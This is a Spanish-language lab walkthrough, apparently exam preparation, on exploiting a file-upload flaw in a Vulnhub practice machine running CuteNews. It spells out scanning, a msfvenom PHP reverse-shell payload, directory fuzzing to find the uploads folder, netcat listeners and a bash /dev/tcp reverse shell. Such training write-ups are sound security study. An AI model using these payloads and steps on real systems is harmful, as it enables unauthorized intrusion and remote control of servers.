 
---
- TAG: #Explotación #Vulnerabilidades #Carga #Archivos 
---
# Creación de un Payload Malicioso en PHP y Explotación de Subida de Archivos

En este apartado vamos a estar viendo cómo crear un payload malicioso con extensión `.php` y cómo aprovechar la subida de archivos maliciosos dentro de una página web para poder obtener intrusión remota a la máquina, que es algo que cae en el examen.

Para esto vamos a necesitar:
1. Una máquina **Kali Linux**.
2. Máquina vulnerable de **Vulnhub** [Máquina SECTALKS: BNE0X03 - SIMPLE](https://www.vulnhub.com/entry/sectalks-bne0x03-simple%2C141/).

Realizamos la extracción y configuración de la máquina, que ya saben que por defecto debe estar en adaptador puente para que haya conexión entre máquinas.

Iniciamos la máquina **Simple**.

Una vez iniciada, vamos a nuestra máquina **Kali Linux** y realizamos el correcto procedimiento:
1. `arp-scan` para localizar la máquina víctima.
2. `ping` para ver el tipo de ttl y ver a qué nos enfrentamos.
3. `nmap` para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Veremos que tenemos el puerto 80 abierto con el protocolo http, así que nos dirigimos al navegador para ver su contenido.

Nos encontramos con una página interesante de Login, con la opción de subir archivos. Este bloc es precisamente para hablar sobre ese tema, para saber cómo explotar este tipo de vulnerabilidades con archivos maliciosos.

Empezamos creando nuestro usuario y contraseña, en register.

Una vez dentro del panel con usuario y contraseña creado, siempre les recomiendo revisar información del nombre de la web. Por ejemplo, en este caso vemos el nombre de **Cutenews dashboard**. Este nombre lo podemos buscar con **Metasploit** para saber si existe una vulnerabilidad para este tipo de páginas web:
```msfconsole
msfconsole
msf6 > search Cutenews
```

Pero esta vez no va por ahí la intrusión, pero en el examen sí que es importante utilizarlo si encontramos un nombre o una marca.

Si en el examen encontramos una página web y vemos que nos da opciones de subir archivos, ya que esto nos permitirá un fácil acceso a la máquina.

Cuando nos encontremos en un escenario así, vamos a necesitar 2 cosas:
- Crear el archivo malicioso con `msfvenom`.
- Encontrar la ubicación donde se almacenen aquellos archivos que se suban desde el botón de subir.

Para encontrar la ubicación web donde se alojen estos archivos, lo podemos hacer con **Fuzzing**.

Explicado esto, empezamos creando nuestro payload malicioso con msfvenom:
```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

Una vez creado el payload malicioso, lo cargamos dentro de la página web.

Guardamos los cambios y vemos que se guardan efectivamente los cambios.

Ahora lo que necesitamos es averiguar dónde se guardó ese fichero, ya que nuestra intención es localizar el archivo para poderlo ejecutar y adquirir acceso a la máquina.

Es ahora donde entra en juego el **fuzzing web**.

Utilizamos la herramienta de gobuster para localizar directorios web. Para ello, recuerden utilizar el diccionario `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`:
```bash
gobuster dir -u http://1.2.3.4/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Aplicando esto, veremos que nos indica ciertos directorios interesantes como el de **uploads**.

Así que nos dirigimos al navegador y buscamos con el dominio encontrado a ver qué nos refleja. Efectivamente, nos muestra el archivo malicioso que habíamos creado asignado con nuestra dirección IP de atacante Kali Linux.

Ahora, para obtener acceso a la máquina, tenemos que ponernos a la escucha por el puerto 443 con **netcat**:
```bash
nc -nlvp 443
```

Ahora nos dirigimos al directorio `http://1.2.3.4/uploads/`.

Le damos clic al archivo que hemos cargado y listo, obtendremos acceso a la máquina.

Recuerden que el payload en msfvenom suele funcionar mal ya que, al pasar el tiempo, se suele perder la conexión.

Para solucionar eso, podemos hacer lo siguiente:

Haremos una reverse shell y, para ello, primero debemos ponernos a la escucha por otro puerto diferente:
```bash
nc -nlvp 4444
```

Y desde aquí recibimos la reverse shell.

Para ello, tenemos la ayuda de esta página web [devshells](https://www.devshells.com), que nos ayuda creando el payload `sh -i >& /dev/tcp/1.2.3.4/4444 0>&1` y lo pegamos en la conexión que tenemos con netcat por el puerto 433:
```bash
nc -nlvp 443
bash -c "sh -i >& /dev/tcp/1.2.3.4/4444 0>&1"
```

Y en otra terminal, abrimos el puerto **4444** que se encuentra abierto y veremos que recibimos la conexión.

Recuerden hacerlo fuera del examen ya que, dentro del examen, no hay internet.

Así es como podemos ganar acceso a una página web con la vulnerabilidad de subir archivos y acceder a ella desde otra ubicación.

Cuando podemos hacer eso, significa que podemos conseguir intrusión a la máquina víctima.

Esto es algo que sí o sí entra en el examen, así que practiquen mucho con este tema.

